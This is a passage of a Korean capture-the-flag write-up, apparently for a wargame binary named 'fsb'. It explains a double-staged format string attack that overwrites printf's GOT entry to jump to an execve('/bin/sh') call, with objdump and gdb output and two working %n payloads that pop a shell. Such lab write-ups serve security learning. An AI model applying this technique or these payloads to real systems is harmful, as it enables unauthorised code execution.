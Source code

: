 스택에 보이지 않는다(당연하다 data영역으로 들어간다.) 스택을 조작 할 수 없을 것 같다. 하지만 다행히  0xfff25810이 보인다. 다다다다다다다음 4byte를 부른다. (다*7음이다.) 정리해보자.

i) 스택의 특정 위치를 가리키는 포인터가 저장되어 있고

ii) 위 위치에 접근 가능하기 때문에

Double staged fsb를 사용할 수 있다. 그럼 어디 메모리 주소를 쓰고 그 주소를 뭘로 덮을까

### 4-3. Scenario

시나리오를 생각해보자

printf의 GOT를 fsb()내의 execve("/bin/sh")로 뛰면 된다. 

```bash
fsb@ubuntu:~$ objdump -R ./fsb

./fsb:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   read@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   sleep@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   __gmon_start__
0804a014 R_386_JUMP_SLOT   open@GLIBC_2.0
0804a018 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   execve@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   strtoull@GLIBC_2.0
0804a024 R_386_JUMP_SLOT   close@GLIBC_2.0

....

Breakpoint 1, 0x08048610 in fsb ()
(gdb) x/wx 0x804a004
0x804a004 <printf@got.plt>:	0xf7608f40
```

```bash
   0x080486ab <+375>:	mov    eax,DWORD PTR [ebp-0x24]
   0x080486ae <+378>:	mov    DWORD PTR [esp+0x8],0x0
   0x080486b6 <+386>:	lea    edx,[ebp-0x24]
   0x080486b9 <+389>:	mov    DWORD PTR [esp+0x4],edx
   0x080486bd <+393>:	mov    DWORD PTR [esp],eax
   0x080486c0 <+396>:	call   0x8048450 <execve@plt>
```

### 4-4. Exploit

익스플로잇을 진행해보면

```bash
Give me some format strings(1)
%134520836c%14$n
...
Give me some format strings(2)
%134514347c%20$n
...
$
```

와 같이 할 수 있다.



